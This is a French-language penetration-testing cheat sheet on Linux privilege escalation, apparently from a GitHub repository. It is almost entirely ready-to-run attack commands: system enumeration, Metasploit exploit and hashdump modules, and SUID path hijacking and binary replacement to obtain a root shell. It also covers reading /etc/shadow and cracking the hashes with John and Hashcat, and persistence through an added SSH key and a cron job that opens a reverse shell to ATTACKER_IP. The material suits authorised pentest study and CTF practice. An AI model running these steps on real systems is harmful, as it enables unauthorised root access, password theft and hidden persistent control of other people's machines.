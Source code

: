 # 🐧 Élévation de Privilèges Linux

[← Retour à la table des matières](../README.md)

## Énumération Initiale

### Commandes de base pour l'énumération
```bash
# Vérifier les privilèges sudo de l'utilisateur
sudo -l

# Examiner les tâches cron
cat /etc/crontab
crontab -l
ls -al /etc/cron*

# Trouver tous les fichiers accessibles par l'utilisateur
find / -user {username} 2>/dev/null

# Rechercher les fichiers writables
find / -not -type l -perm -o+w

# Énumérer les services locaux
netstat -antp
netstat -tuln 127.0.0.1

# Informations système de base
cat /etc/shells
python --version
```

### Shell interactif
```bash
# Obtenir un shell interactif
/bin/bash -i
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Générer un mot de passe pour /etc/shadow
```bash
openssl passwd -1 -salt abc password
```

## Kernel Exploits

### Linux Exploit Suggester
```bash
# Avec une session meterpreter active
# 1. Télécharger le script depuis GitHub
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh

# 2. Upload sur la machine cible
upload /path/to/linux-exploit-suggester.sh

# 3. Ouvrir un shell et exécuter
shell
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

### Exploitation des CVE trouvées
```bash
# Le script liste les exploits et CVE disponibles
# Rechercher les exploits correspondants sur exploit-db.com
# Exemple de workflow :
# 1. Noter les CVE suggérées
# 2. Rechercher sur https://www.exploit-db.com/
# 3. Télécharger et compiler l'exploit
# 4. Exécuter pour obtenir root
```

## Exploits Spécifiques

### Chkrootkit (< 0.50)
```bash
# Vérifier la version de chkrootkit
ps aux | grep check-down

# Si version vulnérable détectée
use exploit/unix/local/chkrootkit
set SESSION session_id
set CHKROOTKIT /usr/bin/chkrootkit
run
```

## SUID Binaries

### Recherche de binaires SUID
```bash
# Trouver tous les binaires SUID
find / -perm -u=s -type f 2>/dev/null

# Exemple de sortie avec SUID :
# -rwsr-xr-x 1 root root 8344 Sep 23 2022 /usr/bin/welcome
# Le 's' indique le bit SUID activé
```

### Analyse d'un binaire SUID
```bash
# Analyser le type de fichier
file /usr/bin/welcome

# Examiner les chaînes de caractères
strings /usr/bin/welcome

# Rechercher les appels système et bibliothèques
ltrace /usr/bin/welcome
strace /usr/bin/welcome
```

### Exploitation SUID - Path Hijacking
```bash
# Si le binaire appelle un autre programme sans chemin absolu
# Exemple : le binaire "welcome" appelle "service"

# 1. Créer un faux binaire malveillant
echo '/bin/bash' > /tmp/service
chmod +x /tmp/service

# 2. Modifier le PATH pour inclure /tmp en premier
export PATH=/tmp:$PATH

# 3. Exécuter le binaire SUID
/usr/bin/welcome
# Résultat : shell root car welcome s'exécute avec les privilèges root
```

### Exploitation SUID - Remplacement de binaire
```bash
# Si un binaire spécifique est appelé et peut être remplacé
# Exemple : le binaire appelle /usr/bin/useless

# 1. Sauvegarder l'original (optionnel)
cp /usr/bin/useless /tmp/useless.bak

# 2. Remplacer par une copie de bash
rm /usr/bin/useless
cp /bin/bash /usr/bin/useless

# 3. Exécuter le binaire SUID principal
/usr/bin/welcome
# Résultat : shell root
```

## Hash Dumping et Cracking

### Récupération des hashes
```bash
# En tant que root, les hashes sont dans /etc/shadow
cat /etc/shadow

# Avec Metasploit (session meterpreter active)
use post/linux/gather/hashdump
set SESSION session_id
run
```

### Cracking avec Metasploit
```bash
# Module de cracking intégré
use auxiliary/analyze/crack_linux
set SHA512 true
# Ajouter les hashes récupérés
run
```

### Cracking avec John the Ripper
```bash
# Combiner passwd et shadow
unshadow /etc/passwd /etc/shadow > hashes.txt

# Cracker avec John
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Afficher les mots de passe crackés
john --show hashes.txt
```

### Cracking avec Hashcat
```bash
# Identifier le type de hash
hashcat --example-hashes | grep -i sha512

# Cracker (exemple pour SHA512)
hashcat -m 1800 hashes.txt /usr/share/wordlists/rockyou.txt
```

## Persistance

### Ajout de clé SSH
```bash
# Créer le répertoire .ssh si nécessaire
mkdir -p ~/.ssh

# Ajouter votre clé publique
echo "your_public_key" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
```

### Tâche cron malveillante
```bash
# Ajouter une tâche cron pour la persistance
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'" | crontab -
```

## Ressources Utiles

- [GTFOBins](https://gtfobins.github.io/) - Bypass de sécurité Unix
- [Reverse Shells](https://revshells.com/) - Générateur de reverse shells
